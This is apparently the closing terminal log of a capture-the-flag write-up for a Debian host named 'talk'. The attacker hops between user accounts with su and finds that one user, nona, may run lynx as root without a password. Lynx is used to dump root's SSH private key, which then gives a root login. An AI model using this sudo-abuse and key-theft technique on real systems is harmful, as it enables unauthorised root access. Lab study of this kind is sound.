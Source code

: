 
[sudo] password for adrian: 
Sorry, user adrian may not run sudo on talk.
adrian@talk:~$ su jerry
Password: 
jerry@talk:/home/adrian$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for jerry: 
Sorry, user jerry may not run sudo on talk.
jerry@talk:/home/adrian$ su david
Password: 
david@talk:/home/adrian$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for david: 
Sorry, user david may not run sudo on talk.
david@talk:/home/adrian$ su nona
Password: 
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
nona@talk:/home/adrian$ sudo -u root /usr/bin/lynx -dump /root/.ssh/id_rsa > /tmp/id_rsa
nona@talk:/home/adrian$ cd /tmp
nona@talk:/tmp$ chmod 600 id_rsa 
nona@talk:/tmp$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (::1)' cant be established.
ECDSA key fingerprint is SHA256:QnewK0l6AphbD9vYMwFTNEGQhVfJ8KlSn1BGwWO1D/Q.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Linux talk 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb 18 04:34:23 2021
root@talk:~#
{% endhighlight %}
